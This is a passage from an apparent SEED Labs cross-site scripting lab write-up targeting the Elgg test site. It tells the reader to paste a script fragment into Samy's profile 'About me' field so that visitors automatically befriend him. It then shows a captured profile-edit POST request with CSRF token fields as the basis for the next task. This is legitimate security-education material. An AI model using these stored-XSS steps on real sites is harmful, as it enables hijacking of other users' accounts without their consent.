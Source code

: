 ```
    Ajax.send();
  };
</script>

```
![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Scripting-Attack/blob/main/samy%20as%20friend.PNG)

Now Log in with username ```samy``` and password ```seedsamy```.

Add the code above in ```Profile``` -> ```About me``` by edit html mode.

Now on the VM ```10.0.2.4```, sign in as ```Boby``` and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that ```Samy``` is already your (i.e. Boby) friend.
# Task 5
When editing a user's (Alice) own profile legally, the ```network``` tool captures such an HTTP POST request:
```
Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
```